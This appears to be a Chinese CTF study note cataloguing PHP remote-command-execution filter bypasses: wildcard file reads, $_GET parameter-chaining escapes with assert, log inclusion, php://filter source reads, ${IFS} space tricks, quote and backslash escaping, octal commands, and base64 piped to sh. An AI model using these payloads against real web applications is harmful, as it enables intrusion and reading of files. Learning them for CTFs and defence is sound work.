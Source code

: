 ```yaml
---
title: RCE PHP远程命令执行绕过
date: 2024-05-15 21:53:24
permalink: /pages/96f5e6/
categories:
  - web
tags:
  - rce
  - php
author: 
  name: the0n3
  link: https://the0n3.top
---
```



## 通配符

绕过文件名/扩展名的限制

```php
tac f*
cat f?ag.p?p
less f*
more f*
```

## php函数执行命令

system函数会将参数字符串作为系统命令执行

```shell
system("ls")
```

类似功能函数，eval，passthru，assert，exec，shell_exec，pre_match，create_function等等

参考

[PHP敏感函数](https://blog.csdn.net/FINYIE/article/details/128284692)


## 逃逸

```php
# 检测函数waf()
eval(waf($_GET[cmd]));
```

题目对传参的变量要求很严格但没有严格过滤时，可以尝试逃逸
```
# 命令逃逸  
?cmd=$_GET[a]($_GET[b]);&a=assert&b=phpinfo()  
日志包含  
?cmd=include$_GET[1];&1=/var/log/apache2/access.log  
# 伪协议读文件
?cmd=include$_GET[1];&1=php://filter/convert.base64-encode/resource=index.php
# 其他
```

## 反引号，echo执行代码  

```bash
echo `ls`
```

反引号中字符串作为命令执行，但是没有回显，前面补充一个`echo`，如果命令是有执行结果的，可以直接打印出来

```php
eval("echo `ls`;");
```

对于没有回显的RCE，善用一些带有文件操作的命令，例如`cp`,`mv`,`tee`,`>`等，把结果写进文件或复制、重命名目标文件，解除限制

**重定向“>”符号很好玩，把命令的结果打印到新的文件中**，详细看[写文件](http://the0n3.top//pages/a12979/)

## 拼接

在命令行定义变量，拼接食用

```bash
a=l;b=s;$a$b;
```

![3](https://the0n3.top/medias/ctfshow_web30_命令执行/3.png)

## 空格绕过

注意：其中的url编码只有在get传参时能使用

```url
%09     # tab的url编码
%0a     # 换行url编码
${IFS}  # bash中的分隔符，空格，tab，换行符
$IFS    # 同上
$IFS$9  # 同上
<       # 重定向
>      # 重定向
{命令,参数} # 例如，{ls,/} 
```

**以上，由于大部分web题目的基础镜像使用了`Apline Linux`，shell环境比较基础，<，<>重定向不能和通配符？同时使用，如果是`ubuntu`环境，那么你可以尝试一下**，具体参考[刷题疑问-web容器环境](/pages/47314c/)


**%09，%0Atab和换行的url编码，只有明确ban了才不能用，如果只是ban数字和字母，不妨碍继续使用**

## 转义绕过

在一些时候开发者(出题人)，可能只做了简单的关键词过滤或过滤逻辑不严格时，你或许可以通过转义字符绕过(这里转义字符一定不要有实际转义)

你可以在终端尝试，在加上反斜杠后不会转义的字符前加上反斜杠，例如，l，c没有实际意义的转义，所以转义后还是本身  
**Tip**：转义在终端类环境下可用，例如system("")函数，只有一层php的eval()函数不能直接执行linux命令，配合反引号可以执行，但不会有回显，可以再配合一次重定向写文件

payload：c=system("ta\c f\lag.php");

```php
$c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
```

当正则匹配字段/命令限制较多时，你可以多一个选择

[参考](linux/04tran-meaning.md)


## 单双引号

在linux环境下，在要执行的命令中加入''单引号 双引号""，并不会解析，命令会正常执行，这也可以作为绕过关键字限制的一种方法

```bash
p''w''d
l''s
pw""d
l""s
```

等等类似命令都可以正常执行


## 八进制

在linux环境下，把命令转化为八进制数，使用$'\八进制数'，命令会正确执行，注意：命令不能带有参数  例如ls -lah，tac /flag中-lah,/flag都算参数

更详细内容可以看**探姬**的[bashfuck](https://github.com/ProbiusOfficial/bashFuck)这个项目

ls命令的八进制数

```bash
$'\154\163'
```

## {命令,参数}

在linux下可以使用{ls,/}格式执行命令

```bash
{ls,/}
```

## bin目录下工具

在代码执行限制时，后期练习可能ban掉所有字母，如果数字，通配符？和斜杠/还能用，可以使用bin目录下带数字的工具，例如/bin/base64

```bash
/???/????64${IFS}????.???
```

## 编码，管道符

在命令行使用ls的base64编码执行

```bash
echo bHM=|base64 -d|sh
```

解析：  
- 1.通过输出流echo打印base64编码，传递给管道符的第二部分
- 2.base64进行解码，得到原始命令'ls'，传递给第三部分
- 3.sh在命令行中执行这个原始命令

![2](https://the0n3.top/medias/ctfshow_web30_命令执行/2.png)

在空格被ban时，可以使用${IFS}，$IFS，$IFS$9填充空格

```bash
echo$IFSbHM=|base64$IFS$9-d|sh
```

## 取反

```php
<?php
highlight_file(__FILE__);
$cmd = "phpinfo();";
echo urlencode((~$cmd));
# (~%8F%97%8F%96%91%99%90)();
eval($_GET[1]);
```

## 自增

参考：

[自增，取反，异或 实现RCE](https://blog.csdn.net/whale_waves/article/details/136365419)

## 异或

大佬写的写的非常好了，又新又好😍，直接放参考了

参考：

[无字母rce](https://blog.csdn.net/m0_64180167/article/details/134971320)

[无字母rce](https://arsenetang.github.io/2021/07/28/RCE%E7%AF%87%E4%B9%8B%E6%97%A0%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97rce/)

你可以阅读同类型其他大佬内容文章：

[命令执行总结](https://blog.csdn.net/qq_45927819/article/details/109671655#PATH_107)